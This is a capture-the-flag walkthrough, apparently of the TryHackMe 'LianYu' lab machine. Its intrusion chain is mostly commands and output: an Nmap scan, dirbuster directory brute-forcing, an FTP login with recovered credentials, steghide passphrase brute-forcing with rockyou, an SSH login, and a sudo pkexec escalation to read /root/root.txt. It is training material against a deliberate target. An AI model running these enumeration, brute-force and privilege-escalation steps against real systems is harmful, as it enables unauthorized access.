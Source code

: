 Always start with Nmap
```console
kali@kali:~/LianYu$ nmap -p- -A 10.10.209.111 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-26 18:43 EDT                               
Nmap scan report for 10.10.209.111             
Host is up (0.047s latency).                   
Not shown: 65530 closed ports                  
PORT      STATE SERVICE VERSION                
21/tcp    open  ftp     vsftpd 3.0.2           
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)                          
| ssh-hostkey:                                 
|   1024 56:50:bd:11:ef:d4:ac:56:32:c3:ee:73:3e:de:87:f4 (DSA)                                
|   2048 39:6f:3a:9c:b6:2d:ad:0c:d8:6d:be:77:13:07:25:d6 (RSA)                                
|   256 a6:69:96:d7:6d:61:27:96:7e:bb:9f:83:60:1b:52:12 (ECDSA)
|_  256 3f:43:76:75:a8:5a:a6:cd:33:b0:66:42:04:91:fe:a0 (ED25519)
80/tcp    open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Purgatory
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          35080/tcp6  status
|   100024  1          50089/tcp   status
|   100024  1          55191/udp   status
|_  100024  1          57921/udp6  status
50089/tcp open  status  1 (RPC #100024)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 69.02 seconds
```
run ```dirbuster``` using ```usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt```. give it sometime and it will find a directory call **island**. View the source code of the page, you will find something.
```html
<p>You should find a way to <b> Lian_Yu</b> as we are planed. The Code Word is: </p><h2 style="color:white"> vigilante</style></h2>
```
We know that we are looking for another directory which is a number from **HINT**. Now let brute force more but this time start the directory at ```/island/``` (Dir to start with) instead. Give it a while. you will find ```/island/2100/``` which is the anwser to
```html
<!DOCTYPE html>
<html>
<body>

<h1 align=center>How Oliver Queen finds his way to Lian_Yu?</h1>


<p align=center >
<iframe width="640" height="480" src="https://www.youtube.com/embed/X8ZiFuW41yY">
</iframe> <p>
<!-- you can avail your .ticket here but how?   -->

</header>
</body>
</html>
```
now check the youtube comment
```
Try fuzzing it with .ticket extension.
Answer in b64: Z3JlZW5fYXJyb3cudGlja2V0
```
now use ```base64``` to decode it
```console
kali@kali:~/LianYu$ echo "Z3JlZW5fYXJyb3cudGlja2V0" > b64.txt
kali@kali:~/LianYu$ base64 -d b64.txt 
green_arrow.ticket
```
another way to solve it is using dirbuster again but this time fill **Dir to start with**: ```/island/2100``` and **File Extention**: ```ticket```. let it run and it will give u the http 200 code.


now visit ```http://<ip>/island/2100/green_arrow.ticket```
```html
<pre>
This is just a token to get into Queen's Gambit(Ship)


RTy8yhBQdscX

</pre>
```
from hint, we can use https://gchq.github.io/CyberChef/ to crack the code which is the password to FTP hint **baseXX**


Now login to FTP server, use ``vigilante`` as usernam and the cracked password from last task.
```console
kali@kali:~/LianYu$ ftp 10.10.209.111
Connected to 10.10.209.111.
220 (vsFTPd 3.0.2)
Name (10.10.209.111:kali): vigilante
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0          511720 May 01 03:26 Leave_me_alone.png
-rw-r--r--    1 0        0          549924 May 05 11:10 Queen's_Gambit.png
-rw-r--r--    1 0        0          191026 May 01 03:25 aa.jpg
ftp> cd ..
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwx------    2 1000     1000         4096 May 01 06:55 slade
drwxr-xr-x    2 1001     1001         4096 May 05 11:10 vigilante
226 Directory send OK.
```
use ```get <filename>``` to get everything and ```exit```. not the lasly I run ```cd ..``` to redirect to previous directory and I found out that there is 2 user ```slade``` and ```vigilante```.


now let check the pictures that we downloaded from FTP server. note that one of the image is corrupted
```console
kali@kali:~/LianYu$ file Leave_me_alone.png 
Leave_me_alone.png: data
```
seem like the header/file signature is wrong. check this [link](https://en.wikipedia.org/wiki/List_of_file_signatures) and find signature for .png file. When you found it, run ```hexeditor <filename>``` and fix the file signature to the correct signature (```89 50 4E 47 0D 0A 1A 0A```)


It seem like I should Leave it alone (like the file name said). I couldn't find anything from the recovered image... ofc ```steghide``` will not work since the image is .png.


So I have no choice than try to brute force steghide on ```aa.jpg```. I found a simple bash script [here](https://gist.github.com/itsecurityco/503970852ac47cd6a3b356590d824a2c) which can be use to brute forcing steghid. copy the script and make it executable (``chmod +x``). Now run the script.
```console
kali@kali:~/LianYu$ steghidebf.sh aa.jpg /usr/share/wordlists/rockyou.txt 
Steghide Bruteforce (c) 2017 by Juan Escobar
stegofile: aa.jpg
wordlist:  /usr/share/wordlists/rockyou.txt

/usr/share/wordlists/rockyou.txt/usr/share/wordlists/rockyou.txt/usr/share/wordlists/rockyou.txt/usr/share/wordlists/rockyou.txt[+] Information obtained with passphrase: 'password'
wrote extracted data to "ss.zip".

kali@kali:~/LianYu$ ls
 aa.jpg    Leave_me_alone.png    ss.zip
 b64.txt  "Queen's_Gambit.png"
kali@kali:~/LianYu$ file ss.zip 
ss.zip: Zip archive data, at least v2.0 to extract
kali@kali:~/LianYu$ unzip ss.zip 
Archive:  ss.zip
  inflating: passwd.txt              
  inflating: shado 
```
you will find the ssh password in **shado**: ```cat shado```. We got the password, what are we waiting for? let SSH to the target. When we accessed FTP, we found out that there is 2 users, try both!
```console
 Way To SSH...
                          Loading.........Done.. 
                   Connecting To Lian_Yu  Happy Hacking

██╗    ██╗███████╗██╗      ██████╗ ██████╗ ███╗   ███╗███████╗██████╗ 
██║    ██║██╔════╝██║     ██╔════╝██╔═══██╗████╗ ████║██╔════╝╚════██╗
██║ █╗ ██║█████╗  ██║     ██║     ██║   ██║██╔████╔██║█████╗   █████╔╝
██║███╗██║██╔══╝  ██║     ██║     ██║   ██║██║╚██╔╝██║██╔══╝  ██╔═══╝ 
╚███╔███╔╝███████╗███████╗╚██████╗╚██████╔╝██║ ╚═╝ ██║███████╗███████╗
 ╚══╝╚══╝ ╚══════╝╚══════╝ ╚═════╝ ╚═════╝ ╚═╝     ╚═╝╚══════╝╚══════╝


        ██╗     ██╗ █████╗ ███╗   ██╗     ██╗   ██╗██╗   ██╗
        ██║     ██║██╔══██╗████╗  ██║     ╚██╗ ██╔╝██║   ██║
        ██║     ██║███████║██╔██╗ ██║      ╚████╔╝ ██║   ██║
        ██║     ██║██╔══██║██║╚██╗██║       ╚██╔╝  ██║   ██║
        ███████╗██║██║  ██║██║ ╚████║███████╗██║   ╚██████╔╝
        ╚══════╝╚═╝╚═╝  ╚═╝╚═╝  ╚═══╝╚══════╝╚═╝    ╚═════╝  #

Last login: Tue May 26 20:03:47 2020 from ip-10-8-14-151.eu-west-1.compute.internal
```
a beautiful wellcome message :D. you will found the 1st flag right here. so ```cat``` it. You will find a cool quote by Felicity Smoak said ```people keep secret  computer don't```.


now run sudo -l to find out what sudo command this user can execute.
```console
slade@LianYu:~$ sudo -l
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on
        LianYu:
    (root) PASSWD: /usr/bin/pkexec
```
seem like this user can run ```pkexec``` which allow the user execute a command as another user. now let try to ```cat root.txt```
```console
slade@LianYu:~$ sudo pkexec cat /root/root.txt
                          Mission accomplished



You are injected me with Mirakuru:) ---> Now slade Will become DEATHSTROKE. 



THM{SOMETHING HERE YOU NEED TO FIND OUT BY YOURSELFT}
                                                                              --DEATHSTROKE

Let me know your comments about this machine :)
I will be available @twitter @User6825
```

that is it guys. GLHF and stay home.


